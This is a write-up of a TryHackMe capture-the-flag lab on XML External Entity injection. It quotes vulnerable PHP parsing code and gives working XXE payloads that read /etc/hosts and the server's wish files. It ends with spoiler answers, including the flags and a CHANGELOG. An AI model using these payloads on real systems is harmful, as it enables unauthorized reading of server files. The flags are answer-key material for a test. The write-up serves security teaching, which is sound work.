






# Day 5: SOC-mas XX-what-ee?

## Background story
> The below is copied from the day 5 description.

The days in Wareville flew by, and Software's projects were nearly complete, just in time for Christmas. One evening, after wrapping up work, Software was strolling through the town when he came across a young boy looking dejected. Curious, Software asked, "What would you like for Christmas?" The boy replied with a sigh, "I wish for a teddy bear, but I know that my family can't afford one."

This brief conversation sparked an idea in Software's mind—what if there was a platform where everyone in town could share their Christmas wishes, and the Mayor's office could help make them come true? Excited by the potential, Software introduced the idea to Mayor Malware, who embraced it immediately. The Mayor encouraged the team to build the platform for the people of Wareville.

Through the developers' dedication and effort, the platform was soon ready and became an instant hit. The townspeople loved it! However, in their rush to meet the holiday deadline, the team had overlooked something critical—thorough security testing. Even Mayor Malware had chipped in to help develop a feature in the final hours. Now, it's up to you to ensure the application is secure and free of vulnerabilities. Can you guarantee the platform runs safely for the people of Wareville?

## Learning objectives
- Understand the basic concepts related to XML
- Explore XML External Entity (XXE) and its components
- Learn how to exploit the vulnerability
- Understand remediation measures

## Important Concepts
The challenge page provides brief details about XML, DTDs and XXE and how XXE can be used to display the contents of a file on the server. I'm not going to repeat the same information here. You can refer to the challenge page for more details.

## Connecting to the machine
This challenge requires that you start the machine to attack, and you connect to it. For this I used OpenVPN to connect to the machine, but you can use the AttackBox provided by TryHackMe. The practical section requires Burp Suite, so you can use the AttackBox if you don't have that installed.

## Practical
Once we've started up the machine, we can connect to it using the IP address provided. We can use a web browser to view the WishVille Wishlist platform. The platform allows users to create a wishlist.

Once the home page is loaded, click on the 'Products' menu option. This will take you to a page where you can view the products available. Click on the 'Add to Wishlist' button under the `Wareville's Jolly Cap` product to add it to your wishlist.



After adding the product to the wishlist, click on the 'Cart' menu option to view the products in your cart. Click on the 'Proceed to Checkout' button to buy the items.

Enter a name and address, and click on `Complete Checkout`. This will take you to the confirmation page. You will see a message saying that your wish was successfully saved, and giving you the number of your wish. In my case this was `Wish #21`:



The `Wish #21` is a link, but if you click on it, you will see an error message saying that only Santa's elves can view the wish.

### Intercepting the request
Now we need to intercept the request using Burp Suite.

The challenge page provides details of setting up Burp Suite to intercept the request. I'll just provide a brief overview here.

1. Open Burp Suite (Community Edition is used here) and click `Next`, accerint a Temporary Project.
2. Click on `Start Burp` just accepting to use the default settings.
3. Click on `Dashboard` to clear the help page.
4. We're going to use the Burp Suite built-in browser to visit the WishVille Wishlist platform, so click on the `Settings` icon in the top right corner of Burp Suite. 
5. Under `Tools` select `Burp's browser` and then enable `Allow Burp#s browser to run without a sandbox`.
6. Close the settings and click on the `Proxy` tab.
7. On the right hand side, click `Open Browser` to open the Burp Suite browser.
8. Visit the WishVille Wishlist homepage as before.
9. Click on the `Products` menu option and add the `Wareville's Jolly Cap` to your wishlist.
10. Now look in the Burp Suite `Proxy` tab at the `Http history` section. You should see the requests you've made. Click on the request that called `wichlist.php`.

If we open this request in the `HTTP history` tab, we can see the request and response. The response contains the XML data that was sent to the server. We can see the XML data in the response: 



The challenge tells up that the `wishlist.php` processes the XML data with the following code:
```php
<?php
..
...
libxml_disable_entity_loader(false);
$wishlist = simplexml_load_string($xml_data, "SimpleXMLElement", LIBXML_NOENT);

...
..
echo "Item added to your wishlist successfully.";
?>
```

### Preparing the payload
The line `libxml_disable_entity_loader(false);` allows us to load external entities. We can use this to read the contents of a file on the server (e.g. `/etc/hosts`) by changing the XML data in the request to:
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>
```

Here, instead of the `product_id` we have the `payload` entity that reads the contents of the `/etc/hosts` file.

### Exploitation
We can use Burp Suite to change the XML data in the request:

1. Right-click on the `wishlist.php` request in the `HTTP history` tab and select `Send to Repeater`.
2. In the `Repeater` tab, we can change the XML data in the request to the payload above:



3. Click on `Send` to send the request, and the response on the right hand side will show the contents of the `/etc/hosts` file:



## Time for Some Action
If we hover over the `Wish #21` link in the original checkout page, we can see that the URL the link points to is `/wishes/wish_21.txt`. We can use the same technique to read the contents of this file. However, we're going to read `Wish #1` instead of `Wish #21`:
  
```xml 
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
<wishlist>
	<user_id>1</user_id>
	<item>
	       <product_id>&payload;</product_id>
	</item>
</wishlist>
```

If we change the request to use this payload, we can see the contents of the `wish_1.txt` file:



Now we can try to continue to read the contents of the other wish files in the same way. The questions suggests that there is a flag in one of the wish files!

## Conclusion
The conclusion notes that a CHANGELOG was included in the web platform at `/CHANGELOG`. This is the possible proof of sabotage mentioned in the questions.

## Answes to the questions
> Note: This section contains the answers to the questions asked in the challenge. If you don't want spoilers, don't read this section.

### What is the flag discovered after navigating through the wishes?
The full question is: `What is the flag discovered after navigating through the wishes?`.

The flag is in the `wish_15.txt` file. The contents of the file are:
```plaintext
The product ID: Wish #15
Name: Mayor Malware
Address: Test
---------------------------------------
Product: Waredy Cane
Quantity: 1
---------------------------------------
PS: The flag is THM{Brut3f0rc1n6_mY_w4y}
is invalid.
```

This gives the flag as `THM{Brut3f0rc1n6_mY_w4y}`.

### What is the flag seen on the possible proof of sabotage?
The full question is: `What is the flag seen on the possible proof of sabotage?`.

We look at the `http://<IP>/CHANGELOG` file to see the flag. The contents of the file are:
```plaintext
commit 3f786850e387550fdab836ed7e6dc881de23001b (HEAD -> master, origin/master, origin/HEAD)
Author: Mayor Malware - Wareville <mayor@wareville.org>
Date:   Wed Dec 4 21:24:22 2024 +0200

    Fixed the wishlist.php page THM{m4y0r_m4lw4r3_b4ckd00rs}

commit 89e6c98d92887913cadf06b2adb97f26cde4849b (tag: v1.0.0)
Author: Software - Wareville <software@wareville.org>
Date:   Thu Dec 4 14:45:18 2024 +0200

    Almost done with the wishlists page, needs to handle XML parsing

commit 2b66fd261ee5c6cfc8de7fa466bab600bcfe4f69
Author: Software - Wareville <software@wareville.org>
Date:   Tue Dec 2 15:20:57 2024 +0200

    Finally done with the landing page and initial CSS

commit e983f374794de9c64e3d1c1de1d490c0756eeeff
Author: Software - Wareville <software@wareville.org>
Date:   Tue Dec 2 15:19:33 2024 +0200

    Initial commit
```

We can see that Mayor Malware fixed the `wishlist.php` page, which made it vulnerable to XXE attacks. The flag is in his log message: `THM{m4y0r_m4lw4r3_b4ckd00rs}`.

### Remaining questions
The remaining questions only require you to click `Complete` and have no specific answers to find.


